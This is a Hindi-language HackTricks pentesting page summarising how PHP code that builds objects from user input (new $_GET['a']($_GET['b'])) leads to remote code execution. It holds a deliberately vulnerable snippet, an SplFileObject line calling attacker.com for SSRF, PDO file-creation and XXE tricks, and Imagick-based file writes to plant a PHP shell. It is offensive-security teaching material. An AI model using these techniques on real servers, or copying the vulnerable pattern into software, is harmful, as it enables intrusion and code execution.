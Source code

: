 # PHP - RCE ऑब्जेक्ट निर्माण का दुरुपयोग: नया $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

यह मूल रूप से एक सारांश है [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## परिचय

नए मनमाने ऑब्जेक्ट्स का निर्माण, जैसे `new $_GET["a"]($_GET["a"])`, रिमोट कोड निष्पादन (RCE) का कारण बन सकता है, जैसा कि एक [**लेख**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में विस्तृत किया गया है। यह दस्तावेज़ RCE प्राप्त करने के लिए विभिन्न रणनीतियों को उजागर करता है।

## कस्टम क्लासेस या ऑटोलोडिंग के माध्यम से RCE

सिंटैक्स `new $a($b)` का उपयोग एक ऑब्जेक्ट को इंस्टेंटिएट करने के लिए किया जाता है जहाँ **`$a`** क्लास नाम का प्रतिनिधित्व करता है और **`$b`** कंस्ट्रक्टर को पास किया गया पहला तर्क है। ये वेरिएबल्स उपयोगकर्ता इनपुट जैसे GET/POST से प्राप्त किए जा सकते हैं, जहाँ वे स्ट्रिंग्स या एरे हो सकते हैं, या JSON से, जहाँ वे अन्य प्रकारों के रूप में प्रस्तुत हो सकते हैं।

नीचे दिए गए कोड स्निपेट पर विचार करें:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
इस मामले में, `$a` को `App` या `App2` पर सेट करना और `$b` को एक सिस्टम कमांड (जैसे, `uname -a`) पर सेट करना उस कमांड के निष्पादन का परिणाम देता है।

**ऑटोलोडिंग फ़ंक्शन** का लाभ उठाया जा सकता है यदि ऐसी कोई कक्षाएँ सीधे सुलभ नहीं हैं। ये फ़ंक्शन आवश्यकतानुसार फ़ाइलों से कक्षाओं को स्वचालित रूप से लोड करते हैं और इन्हें `spl_autoload_register` या `__autoload` का उपयोग करके परिभाषित किया जाता है:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
PHP संस्करणों के साथ ऑटो लोडिंग का व्यवहार भिन्न होता है, जो विभिन्न RCE संभावनाएँ प्रदान करता है।

## अंतर्निहित कक्षाओं के माध्यम से RCE

कस्टम कक्षाओं या ऑटो लोडर्स की कमी में, **अंतर्निहित PHP कक्षाएँ** RCE के लिए पर्याप्त हो सकती हैं। इन कक्षाओं की संख्या PHP संस्करण और एक्सटेंशन के आधार पर 100 से 200 के बीच होती है। इन्हें `get_declared_classes()` का उपयोग करके सूचीबद्ध किया जा सकता है।

रिफ्लेक्शन API के माध्यम से रुचि के कंस्ट्रक्टर्स की पहचान की जा सकती है, जैसा कि निम्नलिखित उदाहरण और लिंक [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) में दिखाया गया है।

**विशिष्ट विधियों के माध्यम से RCE में शामिल हैं:**

### **SSRF + Phar Deserialization**

`SplFileObject` कक्षा अपने कंस्ट्रक्टर के माध्यम से SSRF को सक्षम बनाती है, जो किसी भी URL से कनेक्शन की अनुमति देती है:
```php
new SplFileObject('http://attacker.com/');
```
SSRF पुराने PHP संस्करणों में 8.0 से पहले deserialization हमलों का कारण बन सकता है, जो Phar प्रोटोकॉल का उपयोग करता है।

### **PDOs का शोषण करना**

PDO क्लास कंस्ट्रक्टर DSN स्ट्रिंग्स के माध्यम से डेटाबेस से कनेक्शन की अनुमति देता है, जो फ़ाइल निर्माण या अन्य इंटरैक्शन को सक्षम कर सकता है:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP के संस्करण 5.3.22 और 5.4.12 `SoapClient` और `SimpleXMLElement` कंस्ट्रक्टर्स के माध्यम से XXE हमलों के प्रति संवेदनशील थे, जो libxml2 के संस्करण पर निर्भर करते हैं।

## RCE via Imagick Extension

एक **प्रोजेक्ट की निर्भरताओं** के विश्लेषण में, यह पाया गया कि **Imagick** का उपयोग **कमांड निष्पादन** के लिए नए ऑब्जेक्ट्स को इंस्टेंटिएट करके किया जा सकता है। यह कमजोरियों का शोषण करने का एक अवसर प्रस्तुत करता है।

### VID parser

फाइल सिस्टम में किसी भी निर्दिष्ट पथ पर सामग्री लिखने की VID parser क्षमता की पहचान की गई। इससे एक वेब-एक्सेसिबल डायरेक्टरी में PHP शेल रखने की संभावना बनती है, जिससे रिमोट कोड निष्पादन (RCE) प्राप्त होता है।

#### VID Parser + File Upload

यह नोट किया गया है कि PHP अस्थायी रूप से अपलोड की गई फ़ाइलों को `/tmp/phpXXXXXX` में संग्रहीत करता है। Imagick में VID parser, **msl** प्रोटोकॉल का उपयोग करते हुए, फ़ाइल पथ में वाइल्डकार्ड को संभाल सकता है, जिससे अस्थायी फ़ाइल को चुने हुए स्थान पर स्थानांतरित करना संभव होता है। यह विधि फाइल सिस्टम के भीतर मनमाने फ़ाइल लेखन को प्राप्त करने के लिए एक अतिरिक्त दृष्टिकोण प्रदान करती है।

### PHP Crash + Brute Force

[**मूल लेख**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में वर्णित एक विधि में उन फ़ाइलों को अपलोड करना शामिल है जो हटाने से पहले सर्वर क्रैश को ट्रिगर करती हैं। अस्थायी फ़ाइल के नाम को ब्रूट-फोर्स करके, Imagick के लिए मनमाना PHP कोड निष्पादित करना संभव हो जाता है। हालाँकि, यह तकनीक केवल ImageMagick के एक पुराने संस्करण में प्रभावी पाई गई।

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
